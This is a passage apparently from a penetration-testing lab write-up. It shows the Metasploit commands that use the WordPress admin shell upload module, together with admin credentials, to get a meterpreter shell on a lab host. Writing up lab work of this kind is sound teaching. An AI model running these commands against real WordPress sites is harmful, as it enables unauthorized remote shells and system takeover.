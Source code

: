 The administrative access can be leveraged through the msfmodule
**“exploit/ unix/webapp/wp\_admin\_shell\_upload”**, to get a
meterpreter shell on the system. Let’s follow the following commands in
order to get a session:
``` shell
  -----------------------------------------------------------
  msfconsole
  
  msf > use exploit/unix/webapp/wp\_admin\_shell\_upload
  
  msf > set PASSWORD P@s5w0rd!
  
  msf > set USERNAME admin
  
  msf > set TARGETURI /wordpress
  
  msf > set RHOSTS 10.10.10.29
  
  msf > run
  -----------------------------------------------------------
```
![](media/image97.png)

![](media/image98.png)

